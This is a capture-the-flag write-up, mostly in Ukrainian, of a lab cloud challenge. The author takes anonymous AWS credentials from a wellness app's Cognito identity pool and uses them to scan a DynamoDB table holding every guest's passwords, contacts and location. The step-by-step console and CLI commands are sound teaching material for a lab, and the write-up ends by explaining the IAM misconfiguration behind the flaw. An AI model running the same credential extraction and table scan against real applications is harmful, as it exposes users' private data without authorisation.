




# Complimentary

## Install the free app and it hands your phone a set of cloud keys, the same set it hands everyone. They're read-only, but read-only of every guest's contacts, location, and passwords, not just Lambo's. She gave consent. Technically.

Складність: Easy

Ціль: http://complimentary-wellness-app-332173347248.s3-website-us-east-1.amazonaws.com/




## Enumeration
   Перейшовши за посиланням, бачу сторінку Byte Lotus Wellness:



   Особливо цікавим є підключення `AWS SDK` та файлу `app.js` к коді сторінки:
```html
  <script src="https://sdk.amazonaws.com/js/aws-sdk-2.1500.0.min.js"></script>
  <script src="app.js"></script>
```

   Переглядаю `app.js` та знаходжу:
```js
const IDENTITY_POOL_ID = "us-east-1:836c0949-292d-485b-b532-52d5ca7bb688";
const AWS_REGION = "us-east-1";
const TABLE_NAME = "complimentary-GuestWellnessProfiles";
```

   Далі видно, що застосунок використовує `AWS Cognito Identity Pool` для отримання `AWS credentials` без авторизації:
```js
AWS.config.region = AWS_REGION;
AWS.config.credentials = new AWS.CognitoIdentityCredentials({
  IdentityPoolId: IDENTITY_POOL_ID,
});
```

   Також застосунок генерує локальний `guest_id` та використовує його для отримання запису з `DynamoDB`:
```js
function guestId() {
   let id = localStorage.getItem("byteLotusGuestId");
   if (!id) {
      id = "guest-" + Math.random().toString(36).slice(2, 10);
      localStorage.setItem("byteLotusGuestId", id); 
   }
   return id; 
}
```

   Запит до `DynamoDB`:
```js
dynamodb.getItem(
  {
    TableName: TABLE_NAME,
    Key: { guest_id: { S: guestId() } },
  },
  ...
);
```

   Таким чином, застосунок використовує: 
`Cognito Identity Pool` => `Temporary AWS Credentials` => `DynamoDB` => `complimentary-GuestWellnessProfiles`

## Отримання AWS credentials
   Оскільки `credentials` автоматично отримуються браузером, у DevTools Console виконав:   
```js
AWS.config.credentials.get(function(err) {
    if (err) {
        console.error(err);
        return;
    }

    console.log("AccessKeyId:", AWS.config.credentials.accessKeyId);
    console.log("SecretAccessKey:", AWS.config.credentials.secretAccessKey);
    console.log("SessionToken:", AWS.config.credentials.sessionToken);
});
```

   Отримав тимчасові `AWS credentials`:
```js
AccessKeyId: ASIA... 
SecretAccessKey: <REDACTED> 
SessionToken: <REDACTED>
```

   Також перевірив `Cognito Identity ID`:
```js
AWS.config.credentials.identityId
'us-east-1:4d571309-b029-cf3b-1c00-07b02abc3e69'
```

## AWS Identity
   Для роботи з `AWS CLI` передав отримані тимчасові `credentials` через `environment variables`:
```bash
└─$ export AWS_ACCESS_KEY_ID='...'
└─$ export AWS_SECRET_ACCESS_KEY='...'
└─$ export AWS_SESSION_TOKEN='...'
└─$ export AWS_DEFAULT_REGION='us-east-1'
```

   Перевірив, під якою `AWS identity` працюють `credentials`:
```bash
└─$ aws sts get-caller-identity
{
    "UserId": "AROAU2VYTBGYCEB4JME2S:CognitoIdentityCredentials",
    "Account": "332173347248",
    "Arn": "arn:aws:sts::332173347248:assumed-role/complimentary-cognito-unauth-role/CognitoIdentityCredentials"
}
```

   Отже, `Cognito` видав мені `credentials` для `IAM role`: `complimentary-cognito-unauth-role`. Це `unauthenticated`/`guest role`, тобто роль, яку отримує користувач без авторизації.

## DynamoDB
   З `app.js` вже відома назва таблиці: `complimentary-GuestWellnessProfiles`.
   Спочатку застосунок використовує `GetItem` лише для конкретного `guest_id`. 
   Однак потрібно перевірити, чи не дозволяють отримані `credentials` читати інші записи:
```bash
└─$ aws dynamodb scan \
    --table-name complimentary-GuestWellnessProfiles \
    --output json
```

   Запит успішно виконався та повернув 5 записів:
```bash
    "Count": 5,
    "ScannedCount": 5,
    "ConsumedCapacity": null
```

   Серед отриманих записів були профілі:
```text
guest-vibe
guest-lambo
guest-vip-042
guest-patch
guest-ponzi
```
   
   Причому разом із профілями були доступні чутливі дані:`name, email, phone, location, password, notes`.
   Найважливішим виявився запис `guest-vip-042`, у полі `notes` якого знаходиться фінальний прапор:
   


## Висновкі
   Вразливість полягає в неправильній конфігурації `IAM permissions` для `unauthenticated Cognito role`.
   Застосунок автоматично видає кожному відвідувачу `AWS credentials` через `Cognito Identity Pool`:
`Cognito Identity Pool` => `complimentary-cognito-unauth-role` => `DynamoDB`.
   Хоча frontend використовує `GetItem` лише для поточного `guest_id`, `IAM permissions` дозволяють виконати `dynamodb:Scan` для всієї таблиці.
   У результаті будь-який `anonymous guest` може отримати дані всіх користувачів, включно з:
* паролями;
* email;
* номерами телефонів;
* локацією;
* внутрішніми нотатками.

   Таким чином, основна проблема — `IAM Misconfiguration` / `Excessive Permissions` для `Cognito unauthenticated role`, що дозволяє читати всю `DynamoDB` таблицю замість доступу лише до власного запису.
